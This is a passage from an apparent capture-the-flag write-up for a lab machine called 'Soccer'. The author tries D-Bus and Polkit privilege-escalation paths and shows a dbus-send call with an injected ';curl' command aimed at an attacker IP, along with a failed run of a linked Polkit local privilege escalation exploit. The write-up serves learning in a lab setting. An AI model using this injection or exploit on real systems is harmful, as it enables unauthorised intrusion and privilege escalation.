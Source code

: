 After playing around with a few commands, I have a sign that I evaluated.

    -bash-5.0$ dbus-send --system --print-reply --dest=org.freedesktop.ModemManager1 /org/freedesktop/ModemManager1 org.freedesktop.ModemManager1.ScanDevices string:';curl http://10.10.14.137/hacked'
    Error org.freedesktop.DBus.Error.InvalidArgs: Type of message, “(s)”, does not match expected type “()”

After a few days, I picked up where I left off and I realized that that clue from the service had disappeared.

    player@soccer:~$ ps -aux
    USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    player      2888  0.8  0.2  19112  9588 ?        Ss   11:20   0:00 /lib/systemd/systemd --user
    player      2975  0.6  0.1   9988  5000 pts/0    Ss   11:20   0:00 -bash
    player      2983  0.0  0.0  10808  3592 pts/0    R+   11:20   0:00 ps -aux
    player@soccer:~$ uptime -s
    2023-02-05 08:49:08
    player@soccer:~$ date
    Sun Feb  5 11:21:52 UTC 2023

It could be that it was a stroke of luck and that the service in plain sight had been left there by some other... colleague... perhaps I should change course, but now I've gotten too far into this aspect, I'll check if at least the service is in execution.

    player@soccer:~$ service dbus status
    ● dbus.service - D-Bus System Message Bus
         Loaded: loaded (/lib/systemd/system/dbus.service; static; vendor preset: enabled)
         Active: active (running) since Sun 2023-02-05 08:49:19 UTC; 2h 33min ago
    TriggeredBy: ● dbus.socket
           Docs: man:dbus-daemon(1)
       Main PID: 773
          Tasks: 1 (limit: 4640)
         Memory: 2.8M
         CGroup: /system.slice/dbus.service
                 └─773 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
    
    Warning: some journal files were not opened due to insufficient permissions.

The service is there and running. I'm tempted to go on, even if the clue has been picked up in some not-quite-correct form. Perhaps this is not the intended path, but we will only find out when the BOX is withdrawn. I am always looking for exploits that can come in handy...

[Polkit 0.105-26 0.117-2 - Local Privilege Escalation](https://www.exploit-db.com/exploits/50011?ref=secjuice.com)

Unfortunately, this also doesn't work as it should.

    -bash-5.0$ ./f.sh
    [*] Vulnerable version of polkit found
    [*] Determining dbus-send timing
    [*] Attempting to create account

Continued to search...

[https://www.safe.security/assets/img/research-paper/pdf/polkit-vulnerability.pdf](https://www.safe.security/assets/img/research-paper/pdf/polkit-vulnerability.pdf?ref=secjuice.com)
